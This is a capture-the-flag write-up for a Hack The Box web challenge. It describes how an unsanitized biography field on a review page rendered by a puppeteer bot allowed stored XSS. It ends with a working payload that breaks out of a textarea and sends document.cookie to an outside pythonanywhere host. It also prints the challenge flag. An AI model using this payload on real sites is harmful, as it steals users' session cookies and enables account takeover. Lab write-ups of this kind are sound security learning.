 
**Category**: Web

**Points**: 350pts

**TL;DR:** XSS to exfiltrate the cookie with the flag, which was set by the bot and puppeteer. 🚩🍪💻➡️📨

**Sources**:  [sources_web_solid_recruit.zip](./sources_web_solid_recruit.zip)

**Solution:**
Checking the sources provided with the challenge, we saw that sending an enrollment form triggered a review process and launched a puppeteer's browser with the flag cookie.

<p align="center">
  <img src="../assets/review_process_and_flag_cookie.png" alt="review_process_and_flag_cookie" />
</p>
<p align="center">Review process were the flag cookie is set.</p>

In this case we imagined puppeteer as an "end user" invoking the ***/review*** endpoint from its own browser. And if this /review call was susceptible to XSS attacks, extracting the flag cookie (which only existed in that browser) was possible. 

Analyzing the rest of the sources we found that the ***biography text area in the dashboard.html*** was not properly sanitized and was also used in the /review endpoint mentioned above. Just what we needed to launch our XSS attack.

<p align="center">
  <img src="../assets/vulnerable_biography_text_area.png" alt="vulnerable_biography_text_area" />
</p>
<p align="center">Vulnerable biography text area.</p>

After multiple attempts to exfiltrate the cookie, we ended up creating a simple Flask web application with a single endpoint that could be called using a parameter.

Finally, by writing the following script in the biography text area and sending the enrollment form,  we triggered the review process and puppeteer called our webapp with its cookies as a parameter, which we received and logged on our server. Getting the flag: **HTB{attr1but3s_4r3_m34nt_t0_b3_3sc4p3d}**.

**XSS:**

		</textarea> 
		<script>
			var i=new Image;
			i.src="https://xyz.pythonanywhere.com/?"+document.cookie;
		</script>
		<textarea></textarea>
